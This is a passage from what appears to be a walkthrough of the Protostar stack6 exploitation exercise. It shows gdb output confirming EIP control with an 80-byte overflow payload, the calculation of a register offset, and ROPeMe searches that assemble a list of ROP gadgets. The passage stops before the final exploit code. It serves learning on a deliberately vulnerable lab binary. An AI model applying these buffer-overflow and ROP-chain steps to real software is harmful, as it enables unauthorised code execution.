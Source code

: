 ```
~/ $ python -c 'print "A"*80 + "\x41\x42\x43\x44"' > six
...in another term
/opt/protostar/bin $ gdb -q ./stack6
(gdb) r < ~/six
Starting program: /opt/protostar/bin/stack6 < ~/six
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHI

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
(gdb) x/16xw $esp-40
0xbffff648:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff658:     0x41414141      0x44434241      0x41414141      0x41414141
0xbffff668:     0x41414141      0x44434241      0x48474645      0x00000049
0xbffff678:     0xbffff6f8      0xb7eadc76      0x00000001      0xbffff724
```

Okay so it is probably safe to add to one of the addresses near the top of this print out, lets just say 0xbffff648. So now we can use gdb to subtract the two numbers.

```
(gdb) p/x 0xbffff648 - 0x5d5b04c4
$1 = 0x62a4f184
```

Score, so now we need a way to pop 0x62a4f184 into ebx before the xchg gadget. Back to ROPeMe.

```
ROPeMe> search pop ebx %
Searching for ROP gadget:  pop ebx % with constraints: []
0x804835dL: pop ebx ; leave ;;
0x80485c5L: pop ebx ; leave ;;
0x8048452L: pop ebx ; pop ebp ;;
0x80485a7L: pop ebx ; pop ebp ;;
```

A few options here, but I'll take one of the ones without a leave because those seem to mess things up. The pop ebp doesn't matter because we are worried about the top of the stack, not the bottom. 0x8048452 looks good. So now that we have solved the two problems with the xchg gadget, we can move on to actually getting data into eax. To do this, we need to get data into edi because that is what xchg is going to put into eax. ROPeMe again!

```
ROPeMe> search pop edi %
Searching for ROP gadget:  pop edi % with constraints: []
0x8048577L: pop edi ; pop ebp ;;
```

Nice. That gadget will work just fine. Another pop ebp but again that is no big deal as shown later in the actual exploit code. 

So here is what we have so far:
<ul>
<li>4 gadgets:</li>
<ol>
    <li>0x8048452L: pop ebx ; pop ebp ;;</li>
    <li>0x804847fL: call eax ; leave ;;</li>
    <li>0x804844bL: xchg edi eax ; add al 0x8 ; add [ebx+0x5d5b04c4] eax ;;</li>
    <li>0x8048577L: pop edi ; pop ebp ;;</li>
</ol>
<li>Control of EIP</li>
<li>An address to feed into ebx to make sure our xchg gadget doesn't crash @ 0x62a4f184</li>
</ul>
